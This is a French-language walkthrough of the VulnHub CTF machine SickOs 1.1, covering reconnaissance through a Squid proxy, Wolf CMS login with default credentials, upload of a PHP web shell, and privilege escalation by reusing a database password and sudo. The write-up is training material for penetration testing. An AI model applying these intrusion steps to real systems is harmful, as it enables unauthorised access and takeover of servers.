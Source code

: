 # Solution du CTF SickOs 1.1 de VulnHub

[SickOs: 1.1](https://www.vulnhub.com/entry/sickos-11,132/) est un CTF créé par [D4rk36](https://twitter.com/D4rk36) et téléchargeable sur VulnHub.

Comme vous le verrez par la suite il est simple mais requiert d'avoir les bonnes intuitions.

```
Nmap scan report for 192.168.57.5
Host is up (0.00065s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
MAC Address: 08:00:27:89:4A:39 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On a un port 3128 annoncé comme un proxy `Squid` et si on s'y rend avec notre navigateur il rale en effet parce qu'on ne lui a pas donné d'URL à récupérer.

On configure un Firefox pour qu'il utilise ce proxy et quand on demande http://127.0.0.1 on obtient :

```html
<h1>
BLEHHH!!!
</h1>
```

On enchaine avec un `gobuster` en spécifiant le proxy dans les options :

```shellsession
$ gobuster -u http://127.0.0.1/ -p http://192.168.57.5:3128/ -w /opt/fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://127.0.0.1/
[+] Threads      : 10
[+] Wordlist     : /opt/fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt
[+] Status codes : 200,204,301,302,307,403
[+] Proxy        : http://192.168.57.5:3128/
[+] Timeout      : 10s
=====================================================
2023/02/10 15:48:40 Starting gobuster
=====================================================
/index (Status: 200)
/connect (Status: 200)
/robots (Status: 200)
/server-status (Status: 200)
=====================================================
2023/02/10 15:49:18 Finished
=====================================================
```

Dans le `robots.txt` qui ressort il est mention de `/wolfcms`.

Sur exploit-db une recherche sur `wolfcms` ne retourne rien de bien intéressant mais avec `wolf cms` en deux mots je trouve cette vulnérabilité d'upload arbitraire :

[Wolf CMS - Arbitrary File Upload / Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/38000)

On suit l'une des URLs indiquée dans l'exploit et on arrive sur la page de login du CMS :

http://127.0.0.1/wolfcms/?/admin/

Là les identifiants `admin` / `admin` sont acceptés et on peut intuitivement aller dans la gestion des fichiers, créer un `shell.php` et l'éditer pour y placer une backdoor.

On retrouve alors notre shell dans le dossier public :

http://127.0.0.1/wolfcms/public/shell.php?cmd=id

Le fichier de configuration du CMS qu'on peut lire une fois un terminal récupéré contient un mot de passe :

```php
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
```

Ce mot de passe est accepté pour l'utilisateur `sickos` présent sur le système. Ce dernier permet de passer `root` sans difficultés :

```shellsession
www-data@SickOs:/var/www/wolfcms$ su sickos
Password:
sickos@SickOs:/var/www/wolfcms$ id
uid=1000(sickos) gid=1000(sickos) groups=1000(sickos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
sickos@SickOs:/var/www/wolfcms$ sudo -l
[sudo] password for sickos:
Matching Defaults entries for sickos on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:/var/www/wolfcms$ sudo su
root@SickOs:/var/www/wolfcms# id
uid=0(root) gid=0(root) groups=0(root)
root@SickOs:/var/www/wolfcms# cd /root
root@SickOs:~# ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:~# cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

Ce dessus, l'utilisateur fait partie du groupe `sudo`, on peut facilement passer root.

*Publié le 11 février 2023*
